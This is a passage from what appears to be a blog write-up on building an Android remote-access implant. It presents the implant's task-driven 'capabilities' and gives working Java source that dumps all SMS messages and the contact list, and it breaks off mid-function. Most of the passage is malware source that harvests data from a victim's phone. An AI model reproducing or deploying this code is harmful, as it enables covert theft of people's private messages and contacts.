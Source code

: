 ## 2.2. Capabilities
Each capability has its own private method of returning an arraylist of gathered data. Furthermore, each function will have an extra check on permissions to begin with, since the end-user can revoke a specific permission at any given time; consequently, we avoid app crashes.
### 2.2.1. SMS Dump
If the device receives the `smsDump` task, and if granted the `READ_SMS` permission, it will initially query the local `content://sms/` storage. A `cursor` will iterate through the list of SMS messages and we will populate an array list with a couple of message attributes (their unique ID, sender phone number, date sent, and message body):

{% highlight java %}
private ArrayList<String> fetchInbox() {
    ArrayList<String> sms = new ArrayList<>();
    if (ContextCompat.checkSelfPermission(getBaseContext(), "android.permission.READ_SMS") == PackageManager.PERMISSION_GRANTED) {
        ContentResolver cr = getContentResolver();
        Uri uri = Uri.parse("content://sms/");
        Cursor cursor = cr.query(uri, new String[]{"_id", "address", "date", "body"}, "_id > 3", null, "date DESC");
        if (cursor != null) {
            cursor.moveToFirst();
            for (int i = 0; i < cursor.getCount(); i++) {
                String id = cursor.getString(0);
                String address = cursor.getString(1);
                Long dateMil = cursor.getLong(2);
                String body = cursor.getString(3);
                Date date = new Date(dateMil);
                SimpleDateFormat formatter = new SimpleDateFormat("dd/MM/yyyy HH:mm:ss", java.util.Locale.getDefault());
                formatter.setTimeZone(TimeZone.getTimeZone("UTC"));
                String formatted = formatter.format(date);
                sms.add("\n ID=>" + id + "\n Address=>" + address + "\n Date=>" + formatted + "\n Body=>" + body + "\n");
                cursor.moveToNext();
            }
            cursor.close();
        }
    }
    return sms;
}
{% endhighlight %}
### 2.2.2. Contact List Dump
On the other hand, if the device receives the `contactsDump` task (assuming the `READ_CONTACTS` permission is granted), we will use the `ContactsContract` database of contact-related information. The result should return all rows which have a valid registered phone number, along their unique ID and name of the associated person:

{% highlight java %}
private ArrayList<String> fetchContacts() {
    ArrayList<String> info = new ArrayList<>();
    if (ContextCompat.checkSelfPermission(getBaseContext(), "android.permission.READ_CONTACTS") == PackageManager.PERMISSION_GRANTED) {
        ContentResolver cr = getContentResolver();
        Cursor cursor = cr.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);

        if ((cursor != null ? cursor.getCount() : 0) > 0) {
            while (cursor.moveToNext()) {
                String id = cursor.getString(cursor.getColumnIndex(ContactsContract.Contacts._ID));
                String name = cursor.getString(cursor.getColumnIndex((ContactsContract.Contacts.DISPLAY_NAME)));

                if (cursor.getInt(cursor.getColumnIndex(
                        ContactsContract.Contacts.HAS_PHONE_NUMBER)) > 0) {
                    Cursor pCur = cr.query(